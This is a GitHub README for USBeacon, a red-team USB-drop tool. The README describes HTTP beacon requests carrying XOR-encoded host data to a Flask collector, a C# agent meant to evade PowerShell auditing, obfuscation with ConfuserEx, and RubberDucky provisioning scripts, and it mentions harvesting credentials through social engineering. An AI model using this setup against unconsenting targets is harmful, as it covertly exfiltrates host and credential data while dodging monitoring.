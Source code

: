 USBeacon
===================
>- What and Why
>  - **Backend**
>  - **Frontend**
>  - **Provisioning**
>  - **Operations**
>  

#What and Why

* Ask: Use no exploitation or drop offensive agents (Empire, MSF), but record who inserted USB an on what machine. Possibly use SocEng opportunities to gain some credential data. 
* Enable transparent, obscured payload communication over common non-secured port (80). Application level encryption. This is done so that SSL interception and inspection is not an issue.  Works by blending into normal traffic. All it should look like a straight HTTP traffic.
* Allows storage of gathered data.
* Any HTTP client can communicate.
* Relative ease of deployment.  Flask microframework. 

##Backend 

> - Flexibly Handles REST API
> Verbs:  _GET_, _POST_, _PUT_ 
> endpoints 
>  - /beacon/[:id] , 
>  - /ebeacon/[:id] (encrypted beacon) 
> - Decodes/decrypts payloads
> - Saves timestamped payloads to database 


Sample Plaintext (POST):

`POST http://example.com:8000/beacon/4445534B544F502D4A4D4A4D4E4C49`

`a=hid&d=state_ok_data_follows`

Sample Encrypted Request:

`POST http://example.com:8000/ebeacon/4445534B544F502D4A4D4A4D4E4C49 `

`a=hid&d=NTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzQsMjYsMjMsMTksMzEsMTMsMzIsNTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzIsNzksNzEsNzYsODAsNzksNzIsNzAsODAsNzksNzEsNzEsODAsNzksNzYsNzEsMzI`

### Install
git clone https://github.com/dsnezhkov/USBeacon.git

_Install runtime and framework dependencies_

    apt-get install python3.4-venv
    python3.4 -m venv venv
    pip install --upgrade  pip
    pip install gunicorn
    
_Install application dependencies_

    pip install -r requirements
    
  _Application init and start_
  
    python init_db.py
    
>Setup application container: Nginx/apache/wsgi, etc.
	    
    
    gunicorn app:app -p gunicorn.pid -b 0.0.0.0:8000  --error-logfile=gunicorn.log --access-logfile=gunicorn.log --capture-output  -D 

###_Alternatively run setup and run scripts_
`backend/scripts/setup.sh`
This script will also have a sample nginx site configuration

`backend/scripts/start_server.sh`

----------
## Frontend 

Really, it's about agent gathering the data. Normally it would be an executable on USB doing the collection. I opted to avoid Powershell or other native scripting capability to avoid the upcoming Powershell command auditing. This might include anything within **System.Management.Automation** space. At the same time C# agent strikes a balance between Powershell and unmanaged code. 

_Frontend_ contains example of such C# projects which collects needed info and can be used to communicate HTTP back to  the Backend collector.

>./frontend/Windows/exebeacon/

is one such example. 
For the specific need I have chosen to further protect the  code with https://yck1509.github.io/ConfuserEx/ 


Create others as needed.

## Provisioning 

Contains sample scripts to manage creation of a working USB RubberDucky drop.  

> ./dist - _your payloads that go on RD USB _ 
Scripts:
> - get_ext_deps.sh  - _Get USB RD dependency scripts_
> - gen_vidpid.sh - _VIP PID swapper
> - payload2usb.sh - _Flash RD firmware and copy payload to RD_
> - gen_inject.sh - Convert RD script to inject.bin 

## Operations
In a gist:

```sequence
Note right of FE: Cleartext payload via REST
FE-->BE(80): GET Parameters
FE-->BE(80): POST Parameters
FE-->BE(80): PUT JSON
Note left of DB: SQL/ORM

Note right of FE: Encrypted payload (B64Encode(XOR(payload,key)) via REST
FE-->BE(80): GET Parameters 
FE-->BE(80): POST Parameters
FE-->BE(80): PUT JSON
```

**Shortcomings:**

> - Static XOR key between frontend and backend, but can be randomized with keyspace of UTF-16  
Opted out of full symmetric encryption due to poor support in VBScript.

